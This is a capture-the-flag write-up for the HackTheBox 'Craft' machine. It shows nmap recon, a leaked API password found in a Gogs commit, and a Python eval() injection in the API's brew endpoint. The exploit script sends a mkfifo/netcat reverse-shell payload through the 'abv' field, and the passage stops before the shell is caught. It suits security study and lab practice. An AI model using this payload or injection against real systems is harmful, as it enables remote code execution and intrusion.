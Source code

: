## HackTheBox Machine
![alt text](image.png)

### Link: https://app.hackthebox.com/machines/Craft
-------------------------------------------------------

### RECON:
+ Scan the open port in the machine:

```bash
$ nmap -sV -vv -A -T4 -p- craft.htb
PORT     STATE SERVICE  REASON  VERSION
22/tcp   open  ssh      syn-ack OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:e7:6c:22:81:7a:db:3e:c0:f0:73:1d:f3:af:77:65 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCscULO5kzW5659eWy5BdBJWCHxBSvqKIn6TZwEdp4NG3cLJc6aVQxEUknoSoMa2RAy2CFv/IWKbFIEY33XM2PRhKTuSJd/aNrMKs0jX40q/0zpmRv4/HzLdWE33t9on739xRWgsnNI0JOaGAwa4ryubOeKo53ykP9fTgLeHvT37GthWJIzfXNA7UFXJen3T4+4xmbxA2Low8D8xAGjqVLoEgKGVy05oL+zGucd0C5LyclT0Gkxm3NCk3MLdFdPOuaVX5jlX32yKUA//Go9fN9OlGffcHkLfgTA7s+PLememC14H/r8ZLYJYByeBj2MqR6ndkQ3+OkmSjeOBPEamkqz
|   256 82:b5:f9:d1:95:3b:6d:80:0f:35:91:86:2d:b3:d7:66 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJAzk0wAfmy1zhnnnQOEoqLN0OK0zF9VwqqwIRkG58ARwaVlwSARRf3BS7Ywo2AfjZS9EWZycsXxy3/7MwEQS1U=
|   256 28:3b:26:18:ec:df:b3:36:85:9c:27:54:8d:8c:e1:33 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJsBTHLrhy1IfI4AeEWxjJBm9z6wm/F9mMPMUbpRt2+K
443/tcp  open  ssl/http syn-ack nginx 1.15.8
|_http-server-header: nginx/1.15.8
| ssl-cert: Subject: commonName=craft.htb/organizationName=Craft/stateOrProvinceName=NY/countryName=US
| Issuer: commonName=Craft CA/organizationName=Craft/stateOrProvinceName=New York/countryName=US/emailAddress=admin@craft.htb/localityName=Buffalo/organizationalUnitName=Craft
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2019-02-06T02:25:47
| Not valid after:  2020-06-20T02:25:47
| MD5:   0111:76e2:83c8:0f26:50e7:56e4:ce16:4766
| SHA-1: 2e11:62ef:4d2e:366f:196a:51f0:c5ca:b8ce:8592:3730
6022/tcp open  ssh      syn-ack (protocol 2.0)
| ssh-hostkey: 
|   2048 5b:cc:bf:f1:a1:8f:72:b0:c0:fb:df:a3:01:dc:a6:fb (RSA)
|_ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDU+fEcb0HbuFvUiMce89AuwclFwGQAJ/FSk+X/uPL+08lP9AzNCivAovV8Py3XEGfUhSDQeJ6Xw5aZCIZB7z/40IViSC1S1fe49lmv7TlDSFKEOZIDQIAuDP3giwyrdX0MnM5qrFtqs9lIH0D8MnGVCh3kcjG5Mh+Jb4/fcGkIpLSAyVc2Fm5PFFV0XIay5vv/SffCO1141JHFZj+Sal4t4MmlZiY1RTaAgGLsn1SshS2EYFv91rZqHmmNCk+GNVSU9txRQm3OrB+06QTsOWnYN71p6+hTe/TQjhaE53zM+/xZi7sPIq6l6evvNSMOOt9fgVQkvM2NuVutLiq6od2h
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-Go
```

### Exploit Gogs service:
+ Access the main page `craft.htb`, we've found the `API` and Git service `Gogs`.
+ Go each page one by one, we've found some interesting things. In the page `Gogs`, we saw the repo `craft-api` with developers.
+ Looking around account of developers, we've found the commit of user `dinesh` about the bug of API:

![alt text](image-1.png)

--> We found the dinesh user's password for the API: `'dinesh', '4aUh0A8PbVJxgd'`.

+ We can use the credential to login API:

![alt text](image-2.png)

--> Get the token to login. We can use it to check later.

![alt text](image-4.png)

![alt text](image-5.png)

+ Back to the first commit, we check the source code `brew.py`:

```bash
 # make sure the ABV value is sane.
        if eval('%s > 1' % request.json['abv']):
            return "ABV must be a decimal value less than 1.0", 400
        else:
            create_brew(request.json)
            return None, 201
```

--> We've found the vulnerability in `eval()`, we can inject the payload into function to spawn reverse shell.

***Note:*** `eval()` - function evaluates the specified expression, if the expression is a legal Python statement, it will be executed:

```python
>>> eval("2 + 2")
4
>>> eval("__import__ ('os').system('whoami')")
zicco
0
```

+ Access `/craft-api/tests/test.py`, we see the source code and func `eval()` in brew.py that we will manipulate the parameter `abv` to inject the payload when execute `test.py` to create a new brew entry.
+ Download `test.py` to the attack machine and edit the file to run it:

```python
#!/usr/bin/env python

import requests
import json
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

response = requests.get('https://api.craft.htb/api/auth/login',  auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
json_response = json.loads(response.text)
token =  json_response['token']

headers = { 'X-Craft-API-Token': token, 'Content-Type': 'application/json'  }

# make sure token is valid
response = requests.get('https://api.craft.htb/api/auth/check', headers=headers, verify=False)
print(response.text)


# create a sample brew with real ABV... should succeed.
print("Create real ABV brew")
brew_dict = {}
brew_dict['abv'] = "__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> 4444 >/tmp/f')"
brew_dict['name'] = 'bullshit'
brew_dict['brewer'] = 'bullshit'
brew_dict['style'] = 'bullshit'

json_data = json.dumps(brew_dict)
response = requests.post('https://api.craft.htb/api/brew/', headers=headers, data=json_data, verify=False)
```

***Note***: We add 
```
import urllib3 
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
```
to disable the error certification

+ Now run file test.py and open netcat to capture the shell:

